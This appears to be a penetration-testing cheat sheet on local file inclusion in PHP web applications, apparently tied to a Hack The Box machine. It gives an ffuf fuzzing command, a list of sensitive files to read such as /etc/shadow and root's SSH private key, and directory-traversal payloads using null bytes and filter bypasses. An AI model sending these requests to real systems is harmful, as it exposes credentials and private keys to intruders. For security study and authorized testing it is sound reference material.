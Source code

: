 # LFI enumeration
Read more https://book.hacktricks.xyz/pentesting-web/file-inclusion

```bash
# Enumerate the page query parameter for LFI vulneratbility
ffuf -w /usr/share/wordlists/lfi.txt -u http://preprod-marketing.trick.htb/index.php?page=FUZZ -fw 1
```

### Common path to test
|                             |                                                                                                                                                                   |
|:---------------------------:|:-----------------------------------------------------------------------------------------------------------------------------------------------------------------:|
| /etc/issue                  | Contains a message or system identification to be printed before the login prompt.                                                                                |
| /etc/profile                | Controls system-wide default variables, such as Export variables, File creation mask (umask), Terminal types, Mail messages to indicate when new mail has arrived |
| /proc/version               | Specifies the version of the Linux kernel                                                                                                                         |
| /etc/passwd                 | Has all registered user that has access to a system                                                                                                               |
| /etc/shadow                 | Contains information about the system's users' passwords                                                                                                          |
| /root/.bash_history         | Contains the history commands for root user                                                                                                                       |
| /var/log/dmessage           | Contains global system messages, including the messages that are logged during system startup                                                                     |
| /var/mail/root              | All emails for root user                                                                     |
| /root/.ssh/id_rsa           | Private SSH keys for a root or any known valid user on the server                                                 |
| /var/log/apache2/access.log | The accessed requests for Apache  webserver                                                            |
| C:\boot.ini                 | Contains the boot options for computers with BIOS firmware                                                    |

### Test if null bytes can be used to bypass file extensions
It may be possible to override the end of the include statement by sending a null byte which tricks the application to disregard anything after it. `%00` (Url encoded) or `0x00` (Hex).

An include like this 

```php
include($_GET["filename"] . ".php");
```

Could be vulnerable to an attack like this. (Fixed in PHP 5.3.4 and above.)


```HTTP
GET http://site.com/index.php?filename=../../../../etc/passwd%00
```

### Filter bypasses

#### Bypass filename black list filter
It's possible that there's a filter being applied that disallowes certain file names. In that case it could be possible to bypass the filter by sending a null byte `(%00 or 0x00)` or by adding the current directory `(.)` to the end of the file path. 

If there's for example a filter disallowing the `/etc/passwd` file it might be possible to bypass it with one of these requests.

**Null Byte**
```HTTP
GET http://site.com/index.php?filename=../../../../etc/passwd%00
```

**Current directory**
```HTTP
GET http://site.com/index.php?filename=../../../../etc/passwd/.
```

#### Bypass `../` replacement
In some cases the application might replace `../` with an empty string to try and prevent directoy traversal. In that case it could be possible to bypass it by sending a string like this `....//....//etc/passwd`. This is because some languages will only replace matches in the original string and wont't try to match occurances in the resulting string. 

```HTTP
GET http://site.com/index.php?filename=....//....//etc/passwd
```

Would after replacing any `../` result in the application looking for a file called  `../../etc/passwd`


#### Bypass include only allowed from a certain folder.
If files to be included are only allowed from a certain folder it might be possible to add that folder to the path and then use directory traversal to move to the correct folder. 

```HTTP
GET http://site.com/index.php?filename=allowed-folder/../../../../etc/passwd
```
